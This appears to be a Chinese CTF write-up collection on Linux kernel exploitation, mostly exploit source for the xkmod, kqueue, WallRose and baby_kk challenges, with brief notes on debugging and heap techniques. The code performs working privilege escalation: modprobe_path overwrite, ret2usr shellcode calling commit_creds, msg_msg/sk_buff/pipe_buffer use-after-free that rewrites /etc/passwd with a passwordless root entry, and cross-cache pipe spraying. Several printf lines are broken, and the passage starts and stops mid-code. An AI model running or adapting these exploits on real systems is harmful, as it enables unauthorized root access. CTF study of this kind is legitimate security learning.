            if (i + j < size) {
                printf("%02x ", data[i + j]);
            } else {
                printf("   "); 
            }
        }
        printf("| "); // 分隔符
        for (j = 0; j < 16; j++) {
            if (i + j < size) {
                if (isprint(data[i + j])) {
                    printf("%c", data[i + j]);
                } else {
                    printf("."); 
                }
            } else {
                printf(" "); 
            }
        }
        printf("\n");
    }
    printf("--------------------------------------------------------------------\;
}


typedef struct{
        void *ptr;
        uint32_t offset;
        uint32_t len;
}Data1;

void bindCore(int core)
{
    cpu_set_t cpu_set;

    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);

    printf("\033[34m\033[1m[*] Process binded to core \033[0m%d\n", core);
}

int main()
{
    printf("\033[34m\033[1m[*] Start to exploit...\033[0m\n");
    saveStatus();
    bindCore(0);

    char buffer[0x100];
    int fd1 = open("/dev/xkmod", O_RDONLY);
    int fd2 = open("/dev/xkmod", O_RDONLY);
    printf("[*] Start Write File.\r\n");
    int write_fd = open(ROOT_SCRIPT_PATH,O_RDWR|O_CREAT);
    write(write_fd,root_cmd,sizeof(root_cmd));
    close(write_fd);
    system("chmod +x " ROOT_SCRIPT_PATH);
    Data1 data;
    ioctl(fd1, 0x1111111,&data);
    close(fd1); 
     
    printf("[*] Start Leak Addr.\r\n");
    data.len=0x50;
    data.ptr=&buffer;
    data.offset=0x0;
    ioctl(fd2,0x7777777,&data);
    print_hex_buffer(buffer,0x50);
    size_t leak_heap_base ;
    memcpy(&leak_heap_base,&buffer,8);
    leak_heap_base = leak_heap_base&0xfffffffff0000000;
    printf("[*] Leaked Addr : 0x%lx.\r\n",leak_heap_base);

    size_t leak1 = leak_heap_base + 0x9d000-0x10;
    printf("[*] 0x%lx.\r\n",leak1);
    
    memcpy(&buffer,&leak1,8);
    data.len=0x8;
    //print_hex_buffer(buffer,0x50);
    ioctl(fd2,0x6666666,&data);
    for(int i=0;i<2;i++) ioctl(fd2,0x1111111,&data);
    data.len=0x50;
    ioctl(fd2,0x7777777,&data);
    print_hex_buffer(buffer,0x50);
    size_t leak2 ;
    memcpy(&leak2,buffer+0x10,8);
    size_t mod_a = modprobe_a + leak2 - 0xffffffff81000030 -0x10;
     
    printf("[*] Leak Done. Modprobe_addr: 0x%lx.\r\nThen. We will overwrite the M;
    int fd3 = open("/dev/xkmod",O_RDONLY);
    ioctl(fd2,0x1111111,&data);
    close(fd2);
    ioctl(fd3,0x7777777,&data);
   
    data.len=8;
    memcpy(buffer,&mod_a,8);
    ioctl(fd3,0x6666666,&data);
    ioctl(fd3,0x1111111,&data);
    data.len=0x50;
    ioctl(fd3,0x7777777,&data);
    printf("1...\r\n"); 
    ioctl(fd3,0x1111111,&data);
    data.len=0x50;
    ioctl(fd3,0x7777777,&data);
    printf("2...\r\n");
    print_hex_buffer(buffer,0x50); 
    strcpy(buffer+0x10, ROOT_SCRIPT_PATH);  
    ioctl(fd3,0x6666666,&data);
    data.len=0x50;
    ioctl(fd3,0x7777777,&data);
    print_hex_buffer(buffer,0x50); 
    
    printf("[*] Overwrite Done.\r\nThen. Trigger the vuln and Getshell!!!\r\n");
    char flag[0x100];
    int flag_fd;    
    system("echo -e '\\xff\\xff\\xff\\xff' > /home/fake");
    system("chmod +x /home/fake");
    system("/home/fake");
    memset(flag, 0, sizeof(flag));

    flag_fd = open("/flag", O_RDWR);
    if (flag_fd < 0) {
            printf("Open flag failed");
            exit(0);
    }

    read(flag_fd, flag, sizeof(flag));
    printf("\033[32m\033[1m[+] Got flag: \033[0m%s\n", flag);
    
    spawn_shell();
}
```
## InCtf2021 kqueue

有个堆溢出，溢出长度自定。

还有就是，这代码太tmd乱了写的，逆不动。

逆出来的结构体大概如下

```c
00000000 struct NodeHeader // sizeof=0x20
00000000 {
00000000     __int16 entrySize;
00000002     __int16 padding0;
00000004     __int32 padding1;
00000008     __int64 totalSize;
00000010     __int32 entryNums;
00000014     __int32 padding2;
00000018     __int64 firstPtr;
00000020 };
```


```c
00000000 struct Node // sizeof=0x18
00000000 {
00000000     __int16 idx;
00000002     __int16 padding0;
00000004     __int32 padding1;
00000008     __int64 Ptr;
00000010     __int64 NextNode;
00000018 };
```

```c
struct $A3F923FF7ED7044BAD720129C3318D20 // sizeof=0x18
00000000 {
00000000     uint32_t max_entries;               // XREF: kqueue_ioctl+70/r
00000000                                         // kqueue_ioctl+BF/r ...
00000004     uint16_t data_size;
00000006     uint16_t entry_idx;
00000008     uint16_t queue_idx;                 // XREF: kqueue_ioctl+6C/r
00000008                                         // kqueue_ioctl+BB/r ...
0000000A     // padding byte
0000000B     // padding byte
0000000C     // padding byte
0000000D     // padding byte
0000000E     // padding byte
0000000F     // padding byte
00000010     char *data;                         // XREF: kqueue_ioctl+68/r
00000010                                         // kqueue_ioctl+B7/r ...
00000018 };
```

打得时候一直报错

```
[    8.987225] Call Trace:
[    8.989460]  ? seq_read+0x89/0x3d0
[    8.989770]  ? vfs_read+0x9b/0x180
[    8.989895]  ? ksys_read+0x5a/0xd0
```

后来发现一个原因是没有栈平衡，另一个是ret2usr给指针赋值写错了。。。

```c
// gcc exp.c -static -masm=intel -g -o exploit
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>   // uint32_t, uint16_t
#include <string.h>
#include <inttypes.h> // SCNx64 if needed
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/ioctl.h>
void spawn_shell()
{
    if(!getuid())
    {
        system("/bin/sh");
    }
    else
    {
        puts("[*]spawn shell error!");
    }
    exit(0);
}
size_t commit_creds = 0, prepare_kernel_cred = 0;
size_t raw_vmlinux_base = 0xffffffff81000000;
size_t addr, ko_addr, commit_creds_addr, prepare_kernel_cred_addr; 
size_t vmlinux_base = 0;
size_t find_symbols()
{
    FILE* kallsyms_fd = fopen("/proc/kallsyms", "r");
    /* FILE* kallsyms_fd = fopen("./test_kallsyms", "r"); */

    if(kallsyms_fd < 0)
    {
        puts("[*]open kallsyms error!");
        exit(0);
    }

    char buf[0x30] = {0};
    while(fgets(buf, 0x30, kallsyms_fd))
    {
        if(commit_creds & prepare_kernel_cred)
            return 0;

        if(strstr(buf, "commit_creds") && !commit_creds)
        {
            /* puts(buf); */
            char hex[20] = {0};
            strncpy(hex, buf, 16);
            /* printf("hex: %s\n", hex); */
            sscanf(hex, "%llx", &commit_creds);
            printf("commit_creds addr: %p\n", commit_creds);
            
            vmlinux_base = commit_creds - 0x9c8e0;
            printf("vmlinux_base addr: %p\n", vmlinux_base);
        }
        if(strstr(buf, "prepare_kernel_cred") && !prepare_kernel_cred)
        {
            /* puts(buf); */
            char hex[20] = {0};
            strncpy(hex, buf, 16);
            sscanf(hex, "%llx", &prepare_kernel_cred);
            printf("prepare_kernel_cred addr: %p\n", prepare_kernel_cred);
            vmlinux_base = prepare_kernel_cred - 0x9cce0;
            /* printf("vmlinux_base addr: %p\n", vmlinux_base); */
        }
    }

    if(!(prepare_kernel_cred & commit_creds))
    {
        puts("[*]Error!");
        //exit(0);
    }

}
size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    puts("[*]status has been saved.");
}
/*** 
ffffffff8108c140 T commit_creds
/ # cat /proc/kallsyms | grep prepare_kernel_cred
ffffffff8108c580 T prepare_kernel_cred
*/

void ret2usr() //nokaslr
{
    //printf("[*] Exec ret2usr\n");
    void* (*prepare_kernel_cred_kfunc)(void *) = (void*(*)(void*))0xffffffff8108c580;
    int (*commit_creds_kfunc)(void *) = (int(*)(void*))0xffffffff8108c140;


    (*commit_creds_kfunc)((*prepare_kernel_cred_kfunc)(NULL));

    asm volatile(
        "mov rax, user_ss;"
        "push rax;"
        "mov rax, user_sp;"
        "add rax, 8;"   /* stack balance */
        "push rax;"
        "mov rax, user_rflags;"
        "push rax;"
        "mov rax, user_cs;"
        "push rax;"
        "lea rax, spawn_shell;"
        "push rax;"
        "swapgs;"
        "iretq;"
    );      
}

struct Input{
    uint32_t max_entries;
    uint16_t data_size;
    uint16_t entry_idx;
    uint16_t queue_idx;
    char *data;
};

struct Input myinput;

int create_kqueue(int fd, int max, int data_size){
    myinput.max_entries = max;
    myinput.data_size = data_size;
    ioctl(fd,0xDEADC0DE,&myinput);
    printf("[*] create kqueue done !\n");
    return 0;
}

int destroy_kqueue(int fd, int max, int idx){
    myinput.max_entries = max;
    myinput.queue_idx = idx;
    ioctl(fd,0xBADDCAFE,&myinput);
    printf("[*] create kqueue done !\n");
    return 0;
}

int edit_kqueue(int fd, int max, int idx, char *Data){
    myinput.queue_idx = idx;
    myinput.data = Data;
    myinput.max_entries = max;
    ioctl(fd,0xDAADEEEE,&myinput);
    printf("[*] edit kqueue done !\n");
    return 0;
}

int save_kqueue_entries(int fd, int idx){
    myinput.queue_idx = idx;
    myinput.max_entries = 0;
    myinput.data_size = 0x40;

    ioctl(fd,0xB105BABE,&myinput);
    return 0;
}
size_t spawn_shell1;
void shellcode(void) //kaslr
{
    __asm__(
        "mov r12, [rsp + 0x8];"
        "sub r12, 0x201179;"
        "mov r13, r12;"
        "add r12, 0x8c580;"  // prepare_kernel_cred
        "add r13, 0x8c140;"  // commit_creds
        "xor rdi, rdi;"
        "call r12;"
        "mov rdi, rax;"
        "call r13;"
        "swapgs;"
        "mov r14, user_ss;"
        "push r14;"
        "mov r14, user_sp;"
        "add r14, 8;"
        "push r14;"
        "mov r14, user_rflags;"
        "push r14;"
        "mov r14, user_cs;"
        "push r14;"
        "mov r14, spawn_shell1;"
        "push r14;"
        "iretq;"
    );
}

int main()
{
    save_status();
    int fd = open("/dev/kqueue", 2);
    if(fd < 0)
    {
        puts("[*]open file error!");
        exit(0);
    }
    create_kqueue(fd, 0xffffffff, 8*0x20);
    spawn_shell1 = (size_t) spawn_shell;
    char *mydata = malloc(0x80);
    for(int i = 0;i<0x100/8;i++) *((size_t *)mydata+i) = (size_t)shellcode;
    //spray seq
    long seq_fd[0x200];
    for (int i = 0; i < 0x100; i++)
        seq_fd[i] = open("/proc/self/stat", O_RDONLY);
    edit_kqueue(fd, 0xffffffff, 0x0, mydata);
    save_kqueue_entries(fd, 0); //debug
    for (int i = 0; i < 0x100; i++){
        read(seq_fd[i], mydata, 1);
        close(seq_fd[i]);
    }
    return 0;
}
```



## HITCON CTF 2023 WallRose [solution1]

附一下题目源码，因为这个题打算用多种打法分别打打。

```c
#include <linux/atomic.h>
#include <linux/device.h>
#include <linux/fs.h>
#include <linux/init.h>
#include <linux/kernel.h>
#include <linux/miscdevice.h>
#include <linux/module.h>
#include <linux/slab.h>
#include <linux/uaccess.h>
#include <asm/errno.h>
#include <linux/printk.h>

#define MAX_DATA_HEIGHT 0x400

MODULE_AUTHOR("wxrdnx");
MODULE_LICENSE("GPL");
MODULE_DESCRIPTION("Wall Rose");

static char *data;

static int rose_open(struct inode *inode, struct file *file) {
    data = kmalloc(MAX_DATA_HEIGHT, GFP_KERNEL);
    if (!data) {
        printk(KERN_ERR "Wall Rose: kmalloc error\n");
        return -1;
    }
    memset(data, 0, MAX_DATA_HEIGHT);
    return 0;
}

static int rose_release(struct inode *inode, struct file *file) {
    kfree(data);
    return 0;
}

static ssize_t rose_read(struct file *filp, char __user *buffer, size_t length, loff_t *offset) {
    pr_info("Wall Rose: data dropped");
    return 0;
}

static ssize_t rose_write(struct file *filp, const char __user *buffer, size_t length, loff_t *offset) {
    pr_info("Wall Rose: data dropped");
    return 0;
}

static struct file_operations rose_fops = { 
    .owner = THIS_MODULE, 
    .open = rose_open, 
    .release = rose_release, 
    .read = rose_read, 
    .write = rose_write, 
}; 

static struct miscdevice rose_device = {
    .minor = MISC_DYNAMIC_MINOR,
    .name = "rose",
    .fops = &rose_fops,
};

static int __init rose_init(void) {
    return misc_register(&rose_device);
}

static void __exit rose_exit(void) {
    misc_deregister(&rose_device);
}

module_init(rose_init);
module_exit(rose_exit);
```

第一种打法是 pipe_buffer + msg_msg uaf ，很经典的两个kernel pwn structure了

这题真是做si我了qwq

有可能是好久没写exploit的原因，也有第一次调试FG-Kaslr的原因。首先FG-Kaslr是用`b rose_release`断不上的，一切都得先跑起来去kallsyms里面找运行地址然后断，像下面这样～

```bash
~ # echo 0 > /proc/sys/kernel/kptr_restrict

~ # cat /proc/kallsyms | grep rose_release
ffffffffc0000060 t rose_release	[rose]
ffffffffc0000050 t __pfx_rose_release	[rose]
```

还有一个比较难受得点是没法用kpipe

```c
gef> kpipe
[+] Wait for memory scan
[+] Nothing to dump
```

所以基本上来说很难调试，而且有个很搞的点是第一个打pipe和msg_msg的组合，msgsnd的内容直接把pipebuffer已有的内容给覆盖了，导致当时看了半天。所以类似`splice(passwd, &offset_in_file, pipe_fd[1], NULL, 1, 0);`这样的东西，还是放在msg和pipe都分配完成之后比较合适，同样地，为了防止msgHeader(0x30)覆盖pipebuffer，一般也会在分配msg前`write(pipe_fd[1], tmp, 0x1000);`两次，在头部切出0x50的空间。

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <sys/stat.h>
#include <stdlib.h>
#include <linux/types.h>
#include <errno.h>
#include <fcntl.h>
#include <unistd.h>
#include <assert.h>
#include <stdint.h>
#include <ctype.h>
#include <sys/msg.h>
#include <string.h>
#include <inttypes.h>
#include <sys/types.h>

#define PIPE_BUF_FLAG_CAN_MERGE 0x10
#define BufferSize 0x400
#ifndef MSG_COPY
#define MSG_COPY 040000
#endif

void print_hex_buffer(const void *buffer, size_t size) {
    const unsigned char *data = (const unsigned char *)buffer;
    size_t i, j;

    if (buffer == NULL || size == 0) {
        printf("[!] Buffer is NULL or size is 0.\n");
        return;
    }

    printf("Dumping %zu bytes from %p:\n", size, buffer);
    printf("--------------------------------------------------------------------\n");

    for (i = 0; i < size; i += 16) {
        printf("0x%08zx | ", i); 

        for (j = 0; j < 16; j++) {
            if (i + j < size) {
                printf("%02x ", data[i + j]);
            } else {
                printf("   "); 
            }
        }
        printf("| ");
        for (j = 0; j < 16; j++) {
            if (i + j < size) {
                if (isprint(data[i + j])) {
                    printf("%c", data[i + j]);
                } else {
                    printf("."); 
                }
            } else {
                printf(" "); 
            }
        }
        printf("\n");
    }
    printf("--------------------------------------------------------------------\n");
}

struct msgbuf1 {
    long mtype;
    char mtext[BufferSize - 0x30-1];
};

int get_msg_queue(void)
{
    return msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
}

ssize_t read_msg(int msqid, void *msgp, size_t msgsz, long msgtyp)
{
    return msgrcv(msqid, msgp, msgsz, msgtyp, 0);
}

/**
 * the msgp should be a pointer to the `struct msgbuf`,
 * and the data should be stored in msgbuf.mtext
 */
ssize_t write_msg(int msqid, void *msgp, size_t msgsz, long msgtyp)
{
    ((struct msgbuf*)msgp)->mtype = msgtyp;
    return msgsnd(msqid, msgp, msgsz, 0);
}

/* for MSG_COPY, `msgtyp` means to read no.msgtyp msg_msg on the queue */
ssize_t peek_msg(int msqid, void *msgp, size_t msgsz, long msgtyp)
{
    return msgrcv(msqid, msgp, msgsz, msgtyp, 
                  MSG_COPY | IPC_NOWAIT | MSG_NOERROR);
}

void Exploit(){
    int roseFd1;
    int roseFd2;
    int roseFd3;
    int pipe_fd[2];
    int pipe_size;
    char buffer1[0x400]={0};
    size_t offset_in_file = 1;

    int passwd = open("etc/passwd",O_RDONLY);
    if (passwd < 0) {
        perror("open passwd");
        exit(0); 
    } 

    roseFd1 = open("/dev/rose",O_RDWR);
    roseFd2 = open("/dev/rose",O_RDWR);
    roseFd3 = open("/dev/rose",O_RDWR);
    close(roseFd1);//
    
    puts("\033[34m\033[1m[*] 1 : Starting Uaf the victim obj 2 pipe buffer~.\033[0m");
    pipe(pipe_fd);
    char tmp[0x1000];
    memset(tmp, 'A', 0x1000);
    write(pipe_fd[1], tmp, 0x1000);
    write(pipe_fd[1], tmp, 0x1000); //0x0 -- 0x50 
    
    puts("\033[34m\033[1m[*] 2 : Starting Uaf the victim obj 2 MsgMsg~.\033[0m");
    int msqid = get_msg_queue();
    struct msgbuf1 MyMsg;
    memset(MyMsg.mtext, 0, sizeof(MyMsg.mtext));
    close(roseFd3);//
    write_msg(msqid, &MyMsg, sizeof(MyMsg.mtext), 1); 
    printf("[+] Start Splice_read File Page.\r\n");
    splice(passwd, &offset_in_file, pipe_fd[1], NULL, 1, 0); //important
    read_msg(msqid, buffer1, sizeof(MyMsg.mtext), 1);
    print_hex_buffer(buffer1,0x60);
    *(size_t *)(buffer1+0x40) = (size_t)PIPE_BUF_FLAG_CAN_MERGE;
    *(size_t *)(buffer1+0x30) = (size_t) 0;
    memcpy(MyMsg.mtext-8,buffer1,0x400-0x30);
    write_msg(msqid, &MyMsg, sizeof(MyMsg.mtext), 1); 
    
    char shellcode[0x20] = "root::0:0::/root:/bin/sh\n\n\x00";
    int retval = write(pipe_fd[1], &shellcode, sizeof(shellcode));
    
    char result[0x100];
    read(passwd, result, 0x100);
    printf("Overwritten /etc/passwd:\n");
    printf("%s", result);
    return;
}
```




## HITCON CTF 2023 WallRose [solution2]

sk_buff + pipebuffer

还是sk_buff好用:)

```c
/***
/home/user # uname -a
Linux (none) 6.1.0-rc1-g62e9ca566070-dirty #1 SMP PREEMPT_DYNAMIC Sun Jul 30 21:41:48 CST 2023 x86_64 GNU/Linux
*/
#define _GNU_SOURCE
#include <stdio.h>
#include <sys/stat.h>
#include <stdlib.h>
#include <linux/types.h>
#include <errno.h>
#include <fcntl.h>
#include <unistd.h>
#include <assert.h>
#include <stdint.h>
#include <ctype.h>
#include <sys/socket.h>
#include <sys/un.h>
#include <unistd.h> 
#include <sys/msg.h>
#include <string.h>
#include <inttypes.h>
#include <sys/types.h>

#define PIPE_BUF_FLAG_CAN_MERGE 0x10
#define BufferSize 0x400
#ifndef MSG_COPY
#define MSG_COPY 040000
#endif

void print_hex_buffer(const void *buffer, size_t size) {
    const unsigned char *data = (const unsigned char *)buffer;
    size_t i, j;

    if (buffer == NULL || size == 0) {
        printf("[!] Buffer is NULL or size is 0.\n");
        return;
    }

    printf("Dumping %zu bytes from %p:\n", size, buffer);
    printf("--------------------------------------------------------------------\n");

    for (i = 0; i < size; i += 16) {
        printf("0x%08zx | ", i); 

        for (j = 0; j < 16; j++) {
            if (i + j < size) {
                printf("%02x ", data[i + j]);
            } else {
                printf("   "); 
            }
        }
        printf("| ");
        for (j = 0; j < 16; j++) {
            if (i + j < size) {
                if (isprint(data[i + j])) {
                    printf("%c", data[i + j]);
                } else {
                    printf("."); 
                }
            } else {
                printf(" "); 
            }
        }
        printf("\n");
    }
    printf("--------------------------------------------------------------------\n");
}
#define SOCKET_NUM 1
#define SK_BUFF_NUM 1

/**
 * socket's definition should be like:
 * int sk_sockets[SOCKET_NUM][2];
 */

int init_socket_array(int sk_socket[SOCKET_NUM][2])
{
    /* socket pairs to spray sk_buff */
    for (int i = 0; i < SOCKET_NUM; i++) {
        if (socketpair(AF_UNIX, SOCK_STREAM, 0, sk_socket[i]) < 0) {
            printf("[x] failed to create no.%d socket pair!\n", i);
            return -1;
        }
    }

    return 0;
}
//usage:spray_sk_buff(sock_fd, buf, sizeof(buf))
int spray_sk_buff(int sk_socket[SOCKET_NUM][2], void *buf, size_t size)
{
    for (int i = 0; i < SOCKET_NUM; i++) {
        for (int j = 0; j < SK_BUFF_NUM; j++) {
            if (write(sk_socket[i][0], buf, size) < 0) {
                printf("[x] failed to spray %d sk_buff for %d socket!", j, i);
                return -1;
            }
        }
    }

    return 0;
}
//usage:free_sk_buff(sock_fd, buf, sizeof(buf))
int free_sk_buff(int sk_socket[SOCKET_NUM][2], void *buf, size_t size)
{
    for (int i = 0; i < SOCKET_NUM; i++) {
        for (int j = 0; j < SK_BUFF_NUM; j++) {
            if (read(sk_socket[i][1], buf, size) < 0) {
                puts("[x] failed to received sk_buff!");
                return -1;
            }
            print_hex_buffer(buf, 0x40);
        }
    }

    return 0;
}

void Exploit(){
    int roseFd1;
    int roseFd2;
    int roseFd3;
    int pipe_fd[2];
    int pipe_size;
    char buffer1[0x400]={0};
    size_t offset_in_file = 1;

    int passwd = open("etc/passwd",O_RDONLY);
    if (passwd < 0) {
        perror("open passwd");
        exit(0); 
    } 

    roseFd1 = open("/dev/rose",O_RDWR);
    roseFd2 = open("/dev/rose",O_RDWR);
    roseFd3 = open("/dev/rose",O_RDWR);
    close(roseFd1);//
    
    puts("\033[34m\033[1m[*] 1 : Starting Uaf the victim obj 2 pipe buffer~.\033[0m");
    pipe(pipe_fd);
    
    puts("\033[34m\033[1m[*] 2 : Starting Uaf the victim obj 2 Sk_buffer~.\033[0m");

    int sk_sockets[SOCKET_NUM][2];
    init_socket_array(sk_sockets);
    close(roseFd2);//
    spray_sk_buff(sk_sockets, buffer1, 1024-320);
    splice(passwd, &offset_in_file, pipe_fd[1], NULL, 1, 0);
    free_sk_buff(sk_sockets, buffer1, 1024-320);
    *(size_t *)(buffer1+0x18) = PIPE_BUF_FLAG_CAN_MERGE;
    *(size_t *)(buffer1+0x8) = 0;
    spray_sk_buff(sk_sockets, buffer1, 1024-320);
    
    char shellcode[0x20] = "root::0:0::/root:/bin/sh\n\n\x00";
    int retval = write(pipe_fd[1], &shellcode, sizeof(shellcode));
    
    char result[0x100];
    read(passwd, result, 0x100);
    printf("Overwritten /etc/passwd:\n");
    printf("%s", result);
    return;
}


int main(){
    Exploit();
    puts("\033[32m\033[1m[+] EXPLOIT DONE!\n[+] RUN $su TO GET PRIVILIGE!\033[0m");
    system("/bin/sh");
    return 0;
}
```

## 羊城杯2025-baby_kk[复现]

```c
//0x1111 allocated
if ( v40 <= 0x4FF && v39 <= 0x100 )
      {
        if ( allocated[32 * v40] )
        {
          v6 = -16LL;
          goto LABEL_10;
        }
        v13 = _kmalloc_cache_noprof(
                kmalloc_caches[14 * ((0x61C8864680B583EBLL * (random_kmalloc_seed ^ retaddr)) >> 60) + 8],
                3520LL,
                256LL); //KMALLOC_RANDOM
        v14 = v40;
        if ( v40 >= 0x500 )
        {
          v35 = v13;
          _ubsan_handle_out_of_bounds(&off_1DC0, v40);
          v13 = v35;
        }
        heap_list[4 * v14] = v13;
        if ( v14 >= 0x500 )
        {
          v34 = v13;
          _ubsan_handle_out_of_bounds(&off_1DA0, v14);
          v13 = v34;
        }
        if ( !v13 )
        {
          v6 = -12LL;
          goto LABEL_10;
        }
        if ( v14 >= 0x500 )
          _ubsan_handle_out_of_bounds(&off_1D80, v14);
        qword_2510[4 * v14] = 0LL;
        if ( v14 >= 0x500 )
          _ubsan_handle_out_of_bounds(&off_1D60, v14);
        qword_2508[4 * v14] = 0LL;
        if ( v14 >= 0x500 )
          _ubsan_handle_out_of_bounds(&off_1D40, v14);
        allocated[32 * v14] = 1;
        goto LABEL_9;
      }

if ( (_DWORD)a2 == 0x2222 )
        {
          if ( v40 <= 0x4FF )
          {
            v5 = heap_list[4 * v40];
            if ( v5 )
            {
              if ( allocated[32 * v40] )
              {
                kfree(v5);                      // uaf
                v21 = v40;
                if ( v40 >= 0x500 )
                  _ubsan_handle_out_of_bounds(&off_1CC0, v40);
                allocated[32 * v21] = 0;
              }
            }
          }
```

**打法1（解法来自纯真师傅和a3博客）：**

> init程序的类型：
>
> - **SysV:** init, CentOS 5之前, 配置文件： /etc/inittab。
> - **Upstart:** init,CentOS 6, 配置文件： /etc/inittab, /etc/init/*.conf。
> - **Systemd：** systemd, CentOS 7,配置文件： /usr/lib/systemd/system、 /etc/systemd/system。

linux开机从POST加电自检开始,当自检完成，读取第一个硬盘的第0个磁头里的前446个字节，运行里面的bootloader，linux一般  用的是grub。通过grub传递参数给内核，初始化加载内核过程，内核调用initrd（小型内存文件系统，五脏俱全，是一个微型linux），通过   initrd，以只读方式挂载根文件系统当根文件系统被挂载后，就会读取并运行/sbin/init来进行初始化工作。按次序依次执行/rc/sysinit ，这个时候会重新以读写的方式挂载根文件系统。读取/etc/rc.d/rcN.d/来启动以s开头的服务，停止以k开头的服务。

我们可以看到 `/sbin/init` 是 `busybox` 的一个符号链接， `busybox-init` 将会使用 `/etc/inittab`作为启动配置，而busybox将作为pid 1（init）时刻监视着tty。

```bash
::sysinit:/etc/init.d/rcS
::askfirst:/bin/ash
::ctrlaltdel:/sbin/reboot
::shutdown:/sbin/swapoff -a
::shutdown:/bin/umount -a -r
::restart:/sbin/init
```

askfirst表示tty空闲时候init进程会对tty执行的操作，会直接给一个/bin/ash的shell，如果使用下面的脚本即可触发内存回收通过OOM杀死所有运行的进程，从而获得一个/bin/ash的root shell

https://arttnba3.cn/2025/06/04/CTF-0X0A_D3CTF2025_D3KHEAP2_D3KSHRM/#Unintended-Solution


**打法2（解法来自Qanux师傅）：**

由于存在0x100 size的UAF，并且开启了*RANDOM_KMALLOC_CACHES*,CrossCache成为了这个题目的必然选择。然而由于分配的Victim无法定位，我们只能选择使用一种暴力的CrossMethod：将分配的obj全部释放以触发discard_slabs

然后，我们可以选择使用构造PageUaf的方式，释放一个Page后堆喷File结构体，覆盖其f_mode字段为0x480e801f（因为这个字段在0xC，所以我们需要现在管道读写0xC的数据），从而修改文件对应的权限。

https://blog.inkey.top/202510/13/%E7%BE%8A%E5%9F%8E%E6%9D%AF-2025-%E5%88%9D%E8%B5%9B/#baby-kk

```c
//sudo gcc exp.c -static -masm=intel -g -o exploit
#define _GNU_SOURCE

#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>
#include <signal.h>
#include <string.h>
#include <stdint.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#include <sched.h>
#include <ctype.h>
#include <pthread.h>
#include <sys/types.h>
#include <sys/sem.h>
#include <semaphore.h>
#include <poll.h>
#include <sys/ipc.h>
#include <sys/msg.h>
#include <sys/shm.h>
#include <sys/wait.h>
#include <linux/keyctl.h>
#include <sys/user.h>
#include <sys/ptrace.h>
#include <stddef.h>
#include <sys/utsname.h>
#include <stdbool.h>
#include <sys/prctl.h>
#include <sys/resource.h>
#include <linux/userfaultfd.h>
#include <sys/socket.h>
#include <asm/ldt.h>
#include <linux/if_packet.h>
#include <sys/uio.h>
#define PIPE_BUF_FLAG_CAN_MERGE 0x10

void print_hex_buffer(const void *buffer, size_t size) {
    const unsigned char *data = (const unsigned char *)buffer;
    size_t i, j;

    if (buffer == NULL || size == 0) {
        printf("[!] Buffer is NULL or size is 0.\n");
        return;
    }

    printf("Dumping %zu bytes from %p:\n", size, buffer);
    printf("--------------------------------------------------------------------\n");

    for (i = 0; i < size; i += 16) {
        printf("0x%08zx | ", i); 

        for (j = 0; j < 16; j++) {
            if (i + j < size) {
                printf("%02x ", data[i + j]);
            } else {
                printf("   "); 
            }
        }
        printf("| ");
        for (j = 0; j < 16; j++) {
            if (i + j < size) {
                if (isprint(data[i + j])) {
                    printf("%c", data[i + j]);
                } else {
                    printf("."); 
                }
            } else {
                printf(" "); 
            }
        }
        printf("\n");
    }
    printf("--------------------------------------------------------------------\n");
}

char send_buffer[0x18];

void allocate1(int fd, size_t Len, size_t idx){
    *((size_t *)(send_buffer+8)) = Len;
    *((size_t *)(send_buffer+0x10)) = idx;
    ioctl(fd,0x1111,&send_buffer);
}

void free1(int fd, size_t idx){
    *((size_t *)(send_buffer+0x10)) = idx;
    ioctl(fd,0x2222,&send_buffer);
}

void show1(int fd, char *userPtr, size_t Len, size_t idx){
    *((size_t *)send_buffer) = (size_t)userPtr;
    *((size_t *)(send_buffer+8)) = Len;
    *((size_t *)(send_buffer+0x10)) = idx;
    ioctl(fd,0x4444,&send_buffer);
}

int edit(int fd, size_t index, char *data, size_t size) {
    *((size_t *)send_buffer) = (size_t)data;
    *((size_t *)(send_buffer+8)) = size;
    *((size_t *)(send_buffer+0x10)) = index;
    return ioctl(fd, 0x3333, &send_buffer);
}

void bind_core(int core){
    cpu_set_t cpu_set;

    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);

    printf("\033[34m\033[1m[*] Process binded to core \033[0m%d\n", core);
}

void Exploit(){
    int Fd1;
    int Fd2;

    int pipe_size;
    size_t offset_in_file = 1;

    bind_core(0);
    Fd1 = open("/dev/baby_kk",O_RDWR);
    Fd2 = open("/dev/baby_kk",O_RDWR);
 
    #define PIPE_NUM 333
    int pipe_fd[PIPE_NUM][2];
    for (int i = 0; i < PIPE_NUM; i++)
    {
        if (pipe(pipe_fd[i]) < 0)
            puts("failed to create pipe!");
    }

    for(int i=0;i<0x4ff;i++) allocate1(Fd1,0x100,i);
    printf("[DEBUG] Spray Done!\n");
    for(int i=0;i<0x4ff;i++) free1(Fd1,i);
    printf("[DEBUG] dele Done!\n");

    puts("\033[34m\033[1m[*] 1 : Starting Spray pipe buffer~.\033[0m");
    for(int i = 0; i < PIPE_NUM; i++){
        int res = fcntl(pipe_fd[i][1], F_SETPIPE_SZ, 0x1000 * 1);
        if (res < 0) {
            perror("resize pipe");  
            printf("Error Nums : %d\n",res);  
            exit(0);
        }
        uint32_t k = i;
        write(pipe_fd[i][1], "Qanux\x00\x00\x00", 8);	
        write(pipe_fd[i][1], &k, sizeof(uint32_t));
    }

    puts("\033[34m\033[1m[*] 2 : Starting find the victime objs~.\033[0m");
    char *data = malloc(0x100);
    memset(data,'\x00',0x100);
    for(int j=0;j<0x4ff;j++){
        edit(Fd1, j, data, 1);
    }
    uint32_t k = 0;
    int victim;
    printf("Try to Find the corrupt ones.\n");
    for(int i=0;i<PIPE_NUM;i++){
        read(pipe_fd[i][0],data,8);
	read(pipe_fd[i][0],&k,sizeof(uint32_t));
        if(i<k){
	    victim = i;
            printf("i:%d and res:%d\n",i,k);
            break;
        }
    }
